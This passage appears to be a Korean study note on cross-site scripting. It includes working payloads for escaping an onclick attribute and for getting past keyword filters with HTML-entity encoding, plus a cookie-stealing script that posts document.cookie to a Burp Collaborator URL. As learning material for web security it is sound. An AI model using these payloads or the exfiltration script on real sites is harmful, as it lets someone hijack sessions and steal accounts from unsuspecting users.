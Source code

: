 
**내 계정에 입력한 웹사이트 주소가 내가 쓴 댓글 프로필의 a 태그 onclick 속성 안으로 들어간다.** 

<img src='./images/theory/xss-5.png'>

`http://foo/?'-alert(1)-&apos`

다음과 같은 payload를 쓴다, apos는 ' 을 뜻한다. 
그럼 해당 함수를 빠져나와서 자바스크립트를 실행할 수 있다.
이 경우 내 댓글을 보는 모든 이들의 브라우져에서 실행시킬 수 있다.  

 

**template이 쓰인경우**

탬플릿 엔진 문법을 참고하여, ${ }처럼 자바스크립트를 실행할 수 있는 괄호 안에 넣어서 실행할 수도 있다. 



**on, script 같은 문자가 막혀있는 경우** 

`<img src=1 onerror=alert(1)>` 에서, n을 인코딩해서, 

`<img src=1 o\&#110;error=alert(1)>` 로 하면 통과가능.

태그의 속성값은 HTML 엔티티를 포함할 수 있음. 
그래서 on을 못쓰니까, n을 인코딩함. 

https://mothereff.in/html-entities 여기에 문자를 넣고, 인코딩함.

 `<iframe srcdoc='<img src=1 o&#x65E;error=parent.alert(1)>'></iframe>`  
이런식으로 인코딩한 문자를 넣어서, 원하는 속성을 삽입할 수 있다.

## 3.4. 공격예시

실제 XSS공격은 주로 3가지 목적을 가진다.

- 쿠키를 훔친다. 
- 비번을 훔친다. 
- 원치않는 요청을 보낸다. 

### 3.4.1. 쿠키 도둑

다른 유저의 쿠키로  내 도메인에 요청을 보내게 해서 쿠키값을 알아낸다. 

**방법**

burp collraborator client를 열어서 "copy" 한다. 
카피된 URL로 오는 요청을 받아볼 수 있다. 

댓글에 아래 스크립트를 넣는다. 

```html
<!--당연히 대부분의 댓글에는 엄격한 필터링이 걸려있음.-->
<script> 
fetch('https://<카피한 URL>', { 
method: 'POST', 
mode: 'no-cors', 
body:document.cookie
}); 
</script>
```

